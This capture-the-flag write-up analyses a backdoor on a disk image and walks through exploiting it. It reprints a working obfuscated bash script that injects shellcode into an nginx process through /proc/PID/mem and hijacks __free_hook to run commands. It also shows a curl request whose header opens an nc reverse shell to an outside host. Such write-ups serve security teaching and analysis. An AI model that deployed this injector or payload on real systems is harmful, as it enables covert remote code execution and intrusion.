

# SPACE JACKAL - Injector

From the second message on SPACE JACKAL's board, 'rudi' has left a backdoor on his former
employer's systems.

## Challenge description


> The decrypted forum messages revealed that a disgruntled employee at one of our customers joined SPACE JACKAL and backdoored a host at their employer before they quit. Our customer provided us with a [snapshot of that machine](https://adversaryquest-static.s3.amazonaws.com/ronludnugcossIph/injector.tar.xz).

> Please identify the backdoor and validate your findings against our test instance of that host, which is available at `injector.challenges.adversary.zone`.

## Solution

We're given a `.tar.xz` file containing a `qcow2` disk image and a shell script to run the
snapshot. After extracting the `.tar` file, we can convert the `qcow2` image to `raw` format
and mount it:

```shell-session
xps15$ qemu-img convert art_ctf_injector_local.qcow2 art_ctf_injector_local.raw

xps15$ ls -hl art_ctf_injector_local.*
-rw-r--r-- 1 jra jra 2.8G Jan 23 20:54 art_ctf_injector_local.qcow2
-rw-r--r-- 1 jra jra  10G Jan 28 16:02 art_ctf_injector_local.raw
```

```shell-session
root@xps15# losetup -f                                      # (ubuntu LOL)
/dev/loop29

root@xps15# losetup -P /dev/loop29 art_ctf_injector_local.raw

root@xps15# fdisk -l /dev/loop29
Disk /dev/loop29: 10 GiB, 10737418240 bytes, 20971520 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: gpt
Disk identifier: 62B0CFE7-BB10-47FE-B235-AD95F16E8072

Device        Start      End  Sectors Size Type
/dev/loop29p1  2048     4095     2048   1M BIOS boot
/dev/loop29p2  4096 20969471 20965376  10G Linux filesystem

root@xps15# mount -r /dev/loop29p2  /mnt
root@xps15# ls /mnt
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   srv  tmp  var
boot  dev    home  lib32  libx32  media       opt  root  sbin  sys  usr
```

As a quick test, we can run tools like [`rkhunter`](http://rkhunter.sourceforge.net/)
or [`chkrootkit`](http://www.chkrootkit.org/) to see whether `rudi` used an off-the-shelf
rootkit to backdoor the system:

```shell-session
root@xps15# chkrootkit -r /mnt
ROOTDIR is `/mnt/'
Checking `amd'...                                           not found
Checking `basename'...                                      not infected
Checking `biff'...                                          not found
...
Searching for Backdoor.Linux.Mokes.a ...                    nothing found
Searching for Malicious TinyDNS ...                         nothing found
Searching for Linux.Xor.DDoS ...                            INFECTED: Possible Malicious Linux.Xor.DDoS installed
/mnt/tmp/.hax/injector.sh
```

`/tmp/.hax/injector.sh` definitely looks suspicious:

```bash linenums="1"
#!/bin/bash

set -e

roth8Kai() {
	for i in $(seq 0 7); do
		curr=$(($1 >> $i*8 & 0xff))
		packed="$packed$(printf '\\x%02x' $curr)"
	done

	echo $packed
}

ieph2Oon() {
    echo $((0x$(nm -D "$1" | sed 's/@.*//' | grep -E " $2$" | cut -d ' ' -f1)))
}

QueSh8yi() {
    echo -ne "$3" | dd of="/proc/$1/mem" bs=1 "seek=$2" conv=notrunc 2>/dev/null
}

ojeequ9I() {
    code="$1"
    from=$(echo "$2" | sed 's/\\/\\\\/g')
    to=$(echo $3 | sed 's/\\/\\\\/g')

    echo $code | sed "s/$from/$to/g"
}

xeiCh4xi() {
    echo "$1" | base64 -d | gzip -d
}

ia5Uuboh() {
    go7uH1yu="$1"

    ih9Ea1se=$(grep -E "/libc.*so$" "/proc/$go7uH1yu/maps" | head -n 1 | tr -s ' ')
    Teixoo1Z=$((0x$(cut -d '-' -f1 <<< "$ih9Ea1se")))
    cu1eiSe9=$(cut -d ' ' -f6 <<< "$ih9Ea1se")
    eo0oMaeL=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA4uPTytKTY3PyM/PBgDwEjq3CwAAAA==))))
    de0fie1O=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAAyuuLC5JzQUAixFNyQYAAAA=))))
    EeGie9qu=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA0srSk0FAMjBLk0EAAAA))))
    Eeko2juZ=$((Teixoo1Z+$(ieph2Oon $cu1eiSe9 $(xeiCh4xi H4sIAAAAAAAAA8tNzMnJT44vLU5MykmNL86sSgUA3kc6ChIAAAA=))))
    Iek6Joyo=$((0x$(grep -E "/libc.*so$" "/proc/$go7uH1yu/maps" | grep 'r-xp' | head -n 1 | tr -s ' ' | cut -d ' ' -f1 | cut -d '-' -f2)))

    HeiSuC5o='\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x41\x41\x41\x41\x41\x41\x41\x41' $(roth8Kai $Eeko2juZ))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x42\x42\x42\x42\x42\x42\x42\x42' $(roth8Kai $EeGie9qu))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x43\x43\x43\x43\x43\x43\x43\x43' $(roth8Kai $de0fie1O))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x44\x44\x44\x44\x44\x44\x44\x44' $(roth8Kai $eo0oMaeL))
    Que2vah0=$(echo -ne $HeiSuC5o | wc -c)
    Thee6ahB=$(($Iek6Joyo - $Que2vah0))
    HeiSuC5o=$(ojeequ9I $HeiSuC5o '\x55\x55\x55\x55\x55\x55\x55\x55' $(roth8Kai $Thee6ahB))

    QueSh8yi $go7uH1yu $Thee6ahB $HeiSuC5o
    QueSh8yi $go7uH1yu $eo0oMaeL $(roth8Kai $Thee6ahB)
}

if [ $# -ne 1  ] || [ ! -e "/proc/$1" ] ; then
    exit 42
fi

ia5Uuboh $1
```

Obfuscated shell variables, base64-encoded strings, and possible shell code point to this script
as potentially malicious. After some de-obfuscation, the script looks like this:

```bash linenums="1"
#!/bin/bash

set -e

pack_addr() {
	for i in $(seq 0 7); do
		curr=$(($1 >> $i*8 & 0xff))
		packed="$packed$(printf '\\x%02x' $curr)"
	done

	echo $packed
}

find_addr() {
    echo $((0x$(nm -D "$1" | sed 's/@.*//' | grep -E " $2$" | cut -d ' ' -f1)))
}

mem_write() {
    echo -ne "$3" | dd of="/proc/$1/mem" bs=1 "seek=$2" conv=notrunc 2>/dev/null
}

patch_shellcode() {
    code="$1"
    from=$(echo "$2" | sed 's/\\/\\\\/g')
    to=$(echo $3 | sed 's/\\/\\\\/g')

    echo $code | sed "s/$from/$to/g"
}

expand() {
    echo "$1" | base64 -d | gzip -d
}

exploit() {
    target_PID="$1"

    libc_info=$(grep -E "/libc.*so$" "/proc/$target_PID/maps" | head -n 1 | tr -s ' ')
    libc_base=$((0x$(cut -d '-' -f1 <<< "$libc_info")))
    libc_filename=$(cut -d ' ' -f6 <<< "$libc_info")

    free_hook_addr=$((libc_base+$(find_addr $libc_filename __free_hook)))
    system_addr=$((libc_base+$(find_addr $libc_filename system)))
    free_addr=$((libc_base+$(find_addr $libc_filename free)))
    malloc_usable_addr=$((libc_base+$(find_addr $libc_filename malloc_usable_size)))

    libc_exec_addr=$((0x$(grep -E "/libc.*so$" "/proc/$target_PID/maps" | grep 'r-xp' | head -n 1 | tr -s ' ' | cut -d ' ' -f1 | cut -d '-' -f2)))

    shellcode='\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'
    shellcode=$(patch_shellcode $shellcode '\x41\x41\x41\x41\x41\x41\x41\x41' $(pack_addr $malloc_usable_addr))
    shellcode=$(patch_shellcode $shellcode '\x42\x42\x42\x42\x42\x42\x42\x42' $(pack_addr $free_addr))
    shellcode=$(patch_shellcode $shellcode '\x43\x43\x43\x43\x43\x43\x43\x43' $(pack_addr $system_addr))
    shellcode=$(patch_shellcode $shellcode '\x44\x44\x44\x44\x44\x44\x44\x44' $(pack_addr $free_hook_addr))
    shellcode_length=$(echo -ne $shellcode | wc -c)
    shellcode_addr=$(($libc_exec_addr - $shellcode_length))
    shellcode=$(patch_shellcode $shellcode '\x55\x55\x55\x55\x55\x55\x55\x55' $(pack_addr $shellcode_addr))

    mem_write $target_PID $shellcode_addr $shellcode
    mem_write $target_PID $free_hook_addr $(pack_addr $shellcode_addr)

    echo 'Shellcode:            ' $shellcode

    echo 'Shellcode address:    ' $shellcode_addr
    echo 'libc_exec address:    ' $libc_exec_addr

    echo 'free() hook address:  ' $free_hook_addr
}

if [ $# -ne 1  ] || [ ! -e "/proc/$1" ] ; then
    exit 42
fi

exploit $1
```

The script takes a `PID` of a process, then looks for information on `libc` in the process:

```bash linenums="37"
libc_info=$(grep -E "/libc.*so$" "/proc/$target_PID/maps" | head -n 1 | tr -s ' ')
libc_base=$((0x$(cut -d '-' -f1 <<< "$libc_info")))
libc_filename=$(cut -d ' ' -f6 <<< "$libc_info")
```

Next, it looks for the addresses of specific functions inside `libc`, specifically `system()`,
`free()`, `malloc_usable_addr()`, and `__free_hook()`:

```bash linenums="41"
free_hook_addr=$((libc_base+$(find_addr $libc_filename __free_hook)))
system_addr=$((libc_base+$(find_addr $libc_filename system)))
free_addr=$((libc_base+$(find_addr $libc_filename free)))
malloc_usable_addr=$((libc_base+$(find_addr $libc_filename malloc_usable_size)))
```

Finally, it looks for the end of the `exec` section of `libc`:

```bash linenums="46"
libc_exec_addr=$((0x$(grep -E "/libc.*so$" "/proc/$target_PID/maps" | grep 'r-xp' | head -n 1 | tr -s ' ' | cut -d ' ' -f1 | cut -d '-' -f2)))
```

The next lines contain what looks like shellcode, with code to patch the shellcode with
the addresses of the functions found above:

```bash linenums="48"
shellcode='\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'
shellcode=$(patch_shellcode $shellcode '\x41\x41\x41\x41\x41\x41\x41\x41' $(pack_addr $malloc_usable_addr))
shellcode=$(patch_shellcode $shellcode '\x42\x42\x42\x42\x42\x42\x42\x42' $(pack_addr $free_addr))
shellcode=$(patch_shellcode $shellcode '\x43\x43\x43\x43\x43\x43\x43\x43' $(pack_addr $system_addr))
shellcode=$(patch_shellcode $shellcode '\x44\x44\x44\x44\x44\x44\x44\x44' $(pack_addr $free_hook_addr))
shellcode_length=$(echo -ne $shellcode | wc -c)
shellcode_addr=$(($libc_exec_addr - $shellcode_length))
shellcode=$(patch_shellcode $shellcode '\x55\x55\x55\x55\x55\x55\x55\x55' $(pack_addr $shellcode_addr))
```

Finally, the script writes the shellcode to the end of the `libc exec` section of memory in
the process, and overwrites the address of `__free_hook()` with the address of the shellcode.

To discover what the shellcode does, we can use the
[`pwntools`](https://github.com/Gallopsled/pwntools) library to disassemble the
shellcode, then use [`ghidra`](https://ghidra-sre.org/) to decompile the shellcode to
`C` (as I'm not great at assembly code).

```python linenums="1"
#!/usr/bin/env

from pwn import *

# Set the context: 64-bit architecture on Linux
context.update(arch='amd64', os='linux')

# The shellcode
shellcode=b'\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd'
'\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c'
'\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44'
'\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80'
'\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48'
'\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55'
'\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01'
'\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d'
'\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4'
'\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99'
'\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48'
'\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44'
'\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'

# Same the assembly to 'injector.as'
with open('injector.as', 'w') as as_file:
    as_file.write(disasm(shellcode))

# And save the binary to 'injector.bin'
with open('injector.bin', 'wb') as binfile:
    binfile.write(shellcode)
```

The resulting assembly:

```nasm
   0:   48 b8 41 41 41 41 41    movabs rax, 0x4141414141414141
   7:   41 41 41
   a:   41 55                   push   r13
   c:   49 bd 43 43 43 43 43    movabs r13, 0x4343434343434343
  13:   43 43 43
  16:   41 54                   push   r12
  18:   49 89 fc                mov    r12, rdi
  1b:   55                      push   rbp
  1c:   53                      push   rbx
  1d:   4c 89 e3                mov    rbx, r12
  20:   52                      push   rdx
  21:   ff d0                   call   rax
  23:   48 89 c5                mov    rbp, rax
  26:   48 b8 44 44 44 44 44    movabs rax, 0x4444444444444444
  2d:   44 44 44
  30:   48 c7 00 00 00 00 00    mov    QWORD PTR [rax], 0x0
  37:   48 83 fd 05             cmp    rbp, 0x5
  3b:   76 61                   jbe    0x9e
  3d:   80 3b 63                cmp    BYTE PTR [rbx], 0x63
  40:   75 54                   jne    0x96
  42:   80 7b 01 6d             cmp    BYTE PTR [rbx+0x1], 0x6d
  46:   75 4e                   jne    0x96
  48:   80 7b 02 64             cmp    BYTE PTR [rbx+0x2], 0x64
  4c:   75 48                   jne    0x96
  4e:   80 7b 03 7b             cmp    BYTE PTR [rbx+0x3], 0x7b
  52:   75 42                   jne    0x96
  54:   c6 03 00                mov    BYTE PTR [rbx], 0x0
  57:   48 8d 7b 04             lea    rdi, [rbx+0x4]
  5b:   48 8d 55 fc             lea    rdx, [rbp-0x4]
  5f:   48 89 f8                mov    rax, rdi
  62:   8a 08                   mov    cl, BYTE PTR [rax]
  64:   48 89 c3                mov    rbx, rax
  67:   48 89 d5                mov    rbp, rdx
  6a:   48 8d 40 01             lea    rax, [rax+0x1]
  6e:   48 8d 52 ff             lea    rdx, [rdx-0x1]
  72:   8d 71 e0                lea    esi, [rcx-0x20]
  75:   40 80 fe 5e             cmp    sil, 0x5e
  79:   77 1b                   ja     0x96
  7b:   80 f9 7d                cmp    cl, 0x7d
  7e:   75 08                   jne    0x88
  80:   c6 03 00                mov    BYTE PTR [rbx], 0x0
  83:   41 ff d5                call   r13
  86:   eb 0e                   jmp    0x96
  88:   48 83 fa 01             cmp    rdx, 0x1
  8c:   75 d4                   jne    0x62
  8e:   bd 01 00 00 00          mov    ebp, 0x1
  93:   48 89 c3                mov    rbx, rax
  96:   48 ff c3                inc    rbx
  99:   48 ff cd                dec    rbp
  9c:   eb 99                   jmp    0x37
  9e:   48 b8 42 42 42 42 42    movabs rax, 0x4242424242424242
  a5:   42 42 42
  a8:   4c 89 e7                mov    rdi, r12
  ab:   ff d0                   call   rax
  ad:   48 b8 55 55 55 55 55    movabs rax, 0x5555555555555555
  b4:   55 55 55
  b7:   48 a3 44 44 44 44 44    movabs ds:0x4444444444444444, rax
  be:   44 44 44
  c1:   58                      pop    rax
  c2:   5b                      pop    rbx
  c3:   5d                      pop    rbp
  c4:   41 5c                   pop    r12
  c6:   41 5d                   pop    r13
  c8:   c3                      ret
```

Firing up `ghidra` and importing `injector.bin` (setting the file type as `Raw binary` and the Language as `x86:64:gcc`):



we can disassemble the binary code, then see the resulting decompiled `C`:

```c linenums="1"
/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

undefined8 UndefinedFunction_00000000(char *param_1,undefined8 param_2,undefined8 param_3)

{
  char *pcVar1;
  ulong uVar2;
  ulong uVar3;
  char *pcVar4;

  uVar3 = (*(code *)malloc_usable_size();
  _DAT___free_hook = 0;
  pcVar4 = param_1;
  do {
    if (uVar3 < 6) {
      (*(code *)__free_hook(param_1);
      _DAT___free_hook = (shellcode_addr);
      return param_3;
    }
    if ((((*pcVar4 == 'c') && (pcVar4[1] == 'm')) && (pcVar4[2] == 'd')) && (pcVar4[3] == '{')) {
      *pcVar4 = '\0';
      pcVar4 = pcVar4 + 4;
      uVar3 = uVar3 - 4;
      do {
        pcVar1 = pcVar4 + 1;
        uVar2 = uVar3 - 1;
        if (0x5e < (byte)(*pcVar4 - 0x20U)) goto LAB_00000096;
        if (*pcVar4 == '}') {
          *pcVar4 = '\0';
          (*(code *)system();
          goto LAB_00000096;
        }
        pcVar4 = pcVar1;
        uVar3 = uVar2;
      } while (uVar2 != 1);
      uVar3 = 1;
    }
LAB_00000096:
    pcVar4 = pcVar4 + 1;
    uVar3 = uVar3 - 1;
  } while( true );
}
```

The important line is:

```c linenums="21"
if ((((*pcVar4 == 'c') && (pcVar4[1] == 'm')) && (pcVar4[2] == 'd')) && (pcVar4[3] == '{')) {
```

The shellcode is looking for the string `cmd{` in a block of memory passed to `malloc()`. If it
sees that string in the memory block, it saves the next characters until `}` is found. It then
calls `system()` to execute the string. This is the backdoor `rudi` planted in the system.

Now that we've identified how the backdoor works, we need to determine how `rudi`
(and us) can take advantage of it remotely. Using the `run.sh` script, we can launch the
snapshot image of the server, which drops us into a `root` shell in the snapshot:

```shell-session
[root@fedora injector]# ./run.sh
Restoring snapshot compromised (art_ctf_injector_local.qcow2)
Press Return...

root@injector-local:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Running `ss -ltpn` will show us what ports open and which processes have them open:

```shell-session
root@injector-local:~# ss -ltpn
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
LISTEN    0         4096         127.0.0.53%lo:53               0.0.0.0:*        users:(("systemd-resolve",pid=363,fd=13))
LISTEN    0         128                0.0.0.0:3322             0.0.0.0:*        users:(("sshd",pid=377,fd=3))
LISTEN    0         511                0.0.0.0:4321             0.0.0.0:*        users:(("nginx",pid=380,fd=6),("nginx",pid=379,fd=6))
LISTEN    0         128                   [::]:3322                [::]:*        users:(("sshd",pid=377,fd=4))
```

`sshd` is listening on `3322`, and `nginx` on `4321`. The exploit code is still sitting in
`/tmp/.hax/injector.sh`, so we can run it with the `PID` of `nginx (380)`:

```shell-session
root@injector-local:~# /tmp/.hax/injector.sh 380
root@injector-local:~#
```

Sending a `curl` command to the web server with a header containing the exploit command
should cause the exploit to run:

```shell-session hl_lines="1 29"
root@injector-local:~# curl -H 'X-Header: cmd{cp /etc/passwd /tmp}' http://localhost:4321
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
root@injector-local:~# ls -l /tmp
total 16
-rw-r--r-- 1 www-data www-data 1778 Jan 29 03:47 passwd
```

And we see the exploit did run: `/etc/passwd` has been copied to `/tmp`, by the user `www-data`.

Finally, we're ready to exploit this on the real system `injector.challenges.adversary.zone`. 
On an Internet-accessible host, start a `netcat` listener on a port, then send a `curl` request
to the server:

```shell-session
xps15$ curl -H 'Host: cmd{nc -n -e /bin/sh ###.##.###.## 12345}' http://injector.challenges.adversary.zone:4321
```

We'll get a shell connected to the `netcat` listener on our host. As in the test, it's running as
`www-data`. There is a symlink `/flag.txt` pointing to `/home/user`, the contents of which 
is the answer for this challenge. Also in the user's home directory is the non-obfuscated
version of the exploit script, and a script to start it when the server reboots:

```shell-session
remote$ nc -vnlp 12345
Received connection from ::ffff:167.99.209.243 port 50798
pwd
/
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls -l
total 64
lrwxrwxrwx   1 root root     7 Oct 22 13:58 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Dec 17 15:16 boot
drwxr-xr-x   2 root root  4096 Dec 17 14:59 cdrom
drwxr-xr-x  17 root root  3860 Jan 28 03:59 dev
drwxr-xr-x  92 root root  4096 Jan 12 14:56 etc
lrwxrwxrwx   1 root root    19 Jan 12 12:57 flag -> /home/user/flag.txt
lrwxrwxrwx   1 root root    19 Jan 12 12:10 flag.txt -> /home/user/flag.txt
drwxr-xr-x   3 root root  4096 Dec 17 15:07 home

...

cd /home/user
ls -l
total 12
-rw-r--r-- 1 root root   23 Jan 12 12:08 flag.txt
-rwxr-xr-x 1 root root 3027 Jan 12 14:59 injector.sh
-rwxr-xr-x 1 root root  246 Jan 12 15:21 start.sh
cat flag.txt
CS{fr33_h00k_b4ckd00r}
```

## Answer
**`CS{fr33_h00k_b4ckd00r}`**
